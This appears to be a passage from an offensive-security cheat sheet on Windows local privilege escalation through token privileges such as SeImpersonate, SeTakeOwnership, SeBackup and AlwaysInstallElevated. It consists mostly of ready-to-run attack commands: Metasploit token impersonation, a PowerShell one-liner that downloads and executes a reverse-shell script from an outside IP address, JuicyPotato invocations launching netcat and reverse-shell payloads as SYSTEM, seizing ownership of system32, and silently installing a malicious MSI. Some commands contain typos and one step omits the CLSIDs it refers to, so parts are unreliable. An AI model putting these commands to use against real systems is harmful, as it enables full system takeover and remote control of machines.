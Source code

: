 [SeDebug + SeImpersonate copy token - HackTricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/sedebug-+-seimpersonate-copy-token)

If the machine is **>= Windows 10 1809 & Windows Server 2019** \- Try **Rogue Potato** there are binary tools available at : 
* https://github.com/breenmachine/RottenPotatoNG
* https://github.com/foxglovesec/RottenPotato
```
# metasploit
getuid
getprivs
use incognito
list\_tokens -u
cd c:\temp\
execute -Hc -f ./rot.exe
impersonate\_token "NT AUTHORITY\SYSTEM"

# Powerview
Invoke-TokenManipulation -ImpersonateUser -Username "lab\domainadminuser"
Invoke-TokenManipulation -ImpersonateUser -Username "NT AUTHORITY\SYSTEM"
Get-Process wininit | Invoke-TokenManipulation -CreateProcess "Powershell.exe -nop -exec bypass -c \"IEX (New-Object Net.WebClient).DownloadString('http://10.7.253.6:82/Invoke-PowerShellTcp.ps1');\"};"
```
If the machine is **< Windows 10 1809 < Windows Server 2019** \- Try **Juicy Potato**:
* https://github.com/ohpe/juicy-potato
* https://github.com/antonioCoco/JuicyPotatoNG
1.  Select a CLSID based on your Windows version, a CLSID is a globally unique identifier that identifies a COM class object
* Windows 7 Enterprise
* Windows 8.1 Enterprise
* Windows 10 Enterprise
* Windows 10 Professional
* Windows Server 2008 R2 Enterprise
* Windows Server 2012 Datacenter
* Windows Server 2016 Standard
2.  Execute JuicyPotato to run a privileged command.
```
JuicyPotato.exe -l 9999 -p c:\interpub\wwwroot\upload\nc.exe -a "IP PORT -e cmd.exe" -t t -c {B91D5831-B1BD-4608-8198-D72E155020F7}
JuicyPotato.exe -l 1340 -p C:\users\User\rev.bat -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
JuicyPotato.exe -l 1337 -p c:\Windows\System32\cmd.exe -t * -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4} -a "/c c:\users\User\reverse_shell.exe"
```
Check: [Windows NamedPipes 101 + Privilege Escalation - Red Teaming Experiments (ired.team)](https://www.ired.team/offensive-security/privilege-escalation/windows-namedpipes-privilege-escalation)
[Named Pipe Client Impersonation - HackTricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/named-pipe-client-impersonation)
### SeTakeOwnerShip
```
takeown.exe /f "%windir%\\system32"
icalcs.exe "%windir%\\system32" /grant "%username%":F
```
### SeBackup
Robocopy requires both SeBackup and SeRestore to work with /b parameter.
```
robocopy /b %WINDIR%\\MEMORY.DMP
```
Check also:
* [giuliano108/SeBackupPrivilege: Use SE\_BACKUP\_NAME/SeBackupPrivilege to access objects you shouldn't have access to (github.com)](https://github.com/giuliano108/SeBackupPrivilege)
### AlwaysInstallElevated
```
msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
```